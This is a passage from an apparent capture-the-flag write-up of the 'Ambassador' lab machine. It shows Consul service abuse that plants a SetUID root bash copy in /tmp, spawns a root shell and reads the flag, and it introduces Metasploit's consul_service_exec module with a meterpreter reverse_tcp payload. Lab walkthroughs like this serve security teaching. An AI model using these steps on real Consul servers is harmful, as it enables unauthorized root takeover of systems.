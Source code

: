         interval = "60s"
      }
    ]



This will copy `bash` to `/tmp/0xdf`, make sure it's owned by root, and
then make it SetUID. After reloading consul, the script runs, and it
works:



    developer@ambassador:~$ ls -l /tmp/0xdf
    -rwsrwxrwx 1 root root 1183448 Sep 14 17:33 /tmp/0xdf



Running this (with `-p` to not drop privs) returns a root shell:



    developer@ambassador:~$ /tmp/0xdf -p
    0xdf-5.0#



And I can get the root flag:



    0xdf-5.0# cat root.txt
    739f3788************************



### MSF Alternative

There is a metasploit exploit for this same version of Consul. I'll run
`msfconsole`, and then `use` it:



    msf6 > use multi/misc/consul_service_exec
    [*] Using configured payload linux/x86/meterpreter/reverse_tcp
    msf6 exploit(multi/misc/consul_service_exec) > 



The default `RPORT` is 8500 (also listed in [the
docs](https://developer.hashicorp.com/consul/docs/install/ports)), which
is the Consul API, and is listening on Ambassador:



    developer@ambassador:~$ netstat -tnlp                 
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                   
    ...[snip]...
